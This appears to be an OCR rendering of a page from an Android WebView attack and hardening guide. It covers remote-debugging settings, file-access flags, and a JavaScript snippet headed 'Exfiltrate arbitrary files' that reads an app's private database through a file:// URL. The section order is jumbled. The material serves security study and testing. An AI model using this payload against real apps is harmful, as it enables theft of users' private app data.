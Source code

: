 ```
- Remote debugging can be enabled for all WebViews within an application by:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    WebView.setWebContentsDebuggingEnabled(true);
}
```
```
- To conditionally enable debugging based on the application's debuggable state:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
    { WebView.setWebContentsDebuggingEnabled(true); }
}
```
```
## Exfiltrate arbitrary files

- Demonstrates the exfiltration of arbitrary files using an XMLHttpRequest:

```javascript
var xhr = new XMLHttpRequest()
xhr.onreadystatechange = function () {
  if (xhr.readyState == XMLHttpRequest.DONE) {
    alert(xhr.responseText)
  }
}
xhr.open(
  "GET",
  "file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db",
  true
)
xhr.send(null)
```
```
# Webview Attacks


## Guide on WebView Configurations and Security

### Overview of WebView Vulnerabilities

A critical aspect of Android development involves the correct handling of WebViews. This guide highlights key configurations and security practices to mitigate risks associated with WebView usage.

![[<../../images/image (1190).png>|WebView Example]]

### **File Access in WebViews**

By default, WebViews permit file access. This functionality is controlled by the `setAllowFileAccess()` method, available since Android API level 3 (Cupcake 1.5). Applications with the **android.permission.READ_EXTERNAL_STORAGE** permission can read files from external storage using a file URL scheme (`file://path/to/file`).

#### **Deprecated Features: Universal and File Access From URLs**

- **Universal Access From File URLs**: This deprecated feature allowed cross-origin requests from file URLs, posing a significant security risk due to potential XSS attacks. The default setting is disabled (`false`) for apps targeting Android Jelly Bean and newer.
  - To check this setting, use `getAllowUniversalAccessFromFileURLs()`.
  - To modify this setting, use `setAllowUniversalAccessFromFileURLs(boolean)`.
- **File Access From File URLs**: This feature, also deprecated, controlled access to content from other file scheme URLs. Like universal access, its default is disabled for enhanced security.
```